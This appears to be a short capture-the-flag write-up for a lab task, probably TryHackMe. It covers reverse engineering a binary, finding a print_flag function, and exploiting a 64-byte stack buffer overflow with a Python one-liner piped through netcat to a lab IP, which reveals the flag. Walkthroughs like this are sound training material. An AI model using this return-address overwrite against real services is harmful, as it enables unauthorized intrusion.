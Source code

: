 
# Task-28

the goal is to reverse engineer the binary and try to break the service. <target-ip> 9008

---

Download `Files (materials)`


- Checked the binary start using `file`, `strings`, and `objdump`.
- Found a function `print_flag()` at address `0x401216` that prints the flag.

```bash
./start
Enter your username: admin
Access denied.
```

## Identified Buffer Overflow
- Sent increasing lengths of input and found the binary crashes (segfault).
- Used a cyclic pattern to find the offset where input overwrites the return address.
- Found the offset to be 64 bytes.

## Buffer overflow Exploitation:

```py
python3 -c "print('A'*64 + '\x16\x12\x40\x00\x00\x00\x00\x00')" | nc 10.10.252.185 9008

Enter your username: Welcome, admin!
THM{nice_place_t0_st4rt}
```
- `'A'*64`: Fills the buffer with 64 'A' characters (padding to reach the return address).
- `\x16\x12\x40\x00\x00\x00\x00\x00`: Overwrites the saved return address on the stack with `0x401216` (little-endian format for 64-bit).
- `nc 10.10.252.185 9008`: Sends the payload to the vulnerable service.
